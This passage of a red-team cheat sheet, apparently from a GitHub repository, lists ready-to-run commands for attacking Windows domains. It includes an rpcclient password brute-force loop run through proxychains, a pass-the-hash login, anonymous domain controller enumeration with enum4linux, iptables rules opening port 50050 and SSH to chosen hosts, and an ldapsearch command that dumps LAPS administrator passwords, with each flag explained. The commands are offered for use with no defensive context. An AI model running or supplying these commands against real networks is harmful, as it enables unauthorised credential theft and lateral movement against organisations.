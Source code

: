 Password bruteforce via rpcclient
```
	for u in `cat users_sorted.txt`; do
		echo -n "[*] user: $u" && \
		proxychains rpcclient -U "domain\$u%$u" -c "getusername;quit" 10.9.8.40
	done
```

Pass the Hash Variant
```
	pth-rpcclient -U "domain\name%hash" --pw-nt-hash 10.4.128.41
```

## enum4linux 

Domain Controller Anonymous Enumeration
```
	enum4linux -A <ip> | tee <ip>-anon-enum.txt
```

## iptables

*Append rules to top of the Input filter and make persistent*
```
	/sbin/iptables -I INPUT -p tcp --dport 50050 -s <ip address> -j ACCEPT
	/sbin/iptables -I INPUT -p tcp --dport 22 -s <ip address> -j ACCEPT
	service netfilter-persistent save
	iptables -L -v
```

*Delete rule*
```	
	iptables -D INPUT -i eth0 -p tcp --dport 443 -j ACCEPT
```

## ldapsearch

Obtain LAPS passwords for domain computers using the linux based ldapsearch tool

[Dump Laps Passwords with LDAPSearch by Rob Fuller](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/)
```	
	ldapsearch -x -h 192.168.80.10 -D "helpdesk" -w ASDqwe123 -b "dc=sittingduck,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

	-x - Use basic authentication
	-h 192.168.80.10 - Connect to the Domain Controller for ldap
	-D "helpdesk" -w ASDqwe123 - Login as the helpdesk user, with the password ASDqwe123
	-b "dc=sittingduck,dc=info" - This loads the base LDAP object of the entire domain.
	"(ms-MCS-AdmPwd=*)" - Filter out any objects that I can’t see a value for ms-MCS-AdmPwd for. (If you have rights as that user to see even one Administrator password, this will show it.)
	ms-MCS-AdmPwd - Only show me the ms-MCS-AdmPwd object (which by default includes the object name and DN so you will still know what host it belongs to)
```
